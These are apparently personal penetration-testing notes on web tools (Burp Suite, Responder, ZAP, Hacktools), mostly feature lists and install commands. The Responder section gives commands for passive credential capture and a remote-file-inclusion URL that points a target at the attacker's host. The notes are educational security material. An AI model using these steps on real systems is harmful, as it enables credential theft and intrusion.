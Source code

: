 # Tools

## <mark style="color:green;">Burp Suite</mark>

* Digital plattform that collects tools for specialiced web penetration testing.
* Framework written in Java that aims to provide a one-stop-shop for web application penetration testing
* Capture and manipulate all of the traffic between an attacker and a webserver
* Can intercept, view, and modify request
* Burp suite has modules that can be added

### **Features**

* **Proxy:** Allows us to intercept and modify requests/responses.
  * _Foxy Proxy:_ Browser Extension for using proxy on Burp
  * The standart IP for connection with Burp is 127.0.0.1 on port 8080
* **Repeater:** Allows us to capture, modify, then resend the same request numerous times. We could craft requests by hand too.
* **Intruder:** Allows us to spray an endpoint with requests.
* **Decoder:** Allows us to transform data, decoding captured information, or encoding a payload.
* **Comparer:** Allows us to compare two pieces of data at either word or byte level.
* **Sequencer:** Help us asses random tokens or other generated data.



## <mark style="color:green;">Responder</mark>

Help in passive obtention of credentials by mounting a SMB server in web

* Configurate file

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nano /usr/share/responder/Responder.conf #Installed here by default
```
{% endcode %}

***

* Initialize Responder

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo responder -I $networkinterface
```
{% endcode %}

{% hint style="info" %}
**Note:** If ypu get error in any port, set _off_ in the service related to that port in _Responder.conf_ file
{% endhint %}

***

* Make Remote file inclusion at page

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>http://$url/$query?$value=//$myip/somefile
</strong></code></pre>

***



## <mark style="color:green;">ZAP</mark>

* Proxy utility stands for Zed Attack Proxy

### **Features**

* **Contexts:** Delimit the scope of the scanning
* **Spider:** Use spidering to get links in the code of a website
* **Active scan:** Attacks the website to get more information
* **Alerts:** Give vulnerabilities found on the web site
* **Sites:** Shows all the URL spidered with their petitions and vulnerabilities
* **History:** Shows petitions made to the site

### **Configuration and utilities**

* Install _SwitchyOmega_ extension
* Configure server to _localhost_ and save changes
* Go to _adds-on_ tab and from marletplace install: _all release, python scripting, community scripts, custom payloads, json view, jwt support, viewstate_.
* Go to settings HUD deactivate _Using ZAP desktop and welcome message._

### Tips

* Can configure Global Alert Filters to set your own grade for a vulnerability.
* From _History_ you can right click and select _Resend_ to modify a petition made before
* **For fuzzing:**&#x20;
  * Select a part of the request and right-click _Fuzz_&#x20;
  * Select _Payloads_ button, select dictionary file or enter custom words
  * In _Message Proccesor_s tab add a new one for exclude errors that arent meaningful
  * In Global Settings go to _Anti-CSRF cert token_, an add the tokens detected in forms POST petitions
  * When getting 304 responses in _Fuzz->Options_ activate _Follow Redirects_
  * When not getting consistent token handle in _Fuzz->Options_ reduce the threads to 1

### Commands

* Installation

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo apt install zaproxy
```
{% endcode %}

***



## <mark style="color:green;">Hacktools</mark>

* Browser extension that help us with scripts, commands and tips for web attacks

### **Features**

* Reverse shell scripts
* PHP reverse shell scripts
* TTY Spawn shell
* Linux commands
* Powershell commands
* Windows file transfer methods
* Local File Inclusion
* Cross-Site Scripting
* SQL Injection
* Data Encoding
* Obfuscated Files or Information
* Hash generator
* MSF Venom Builder

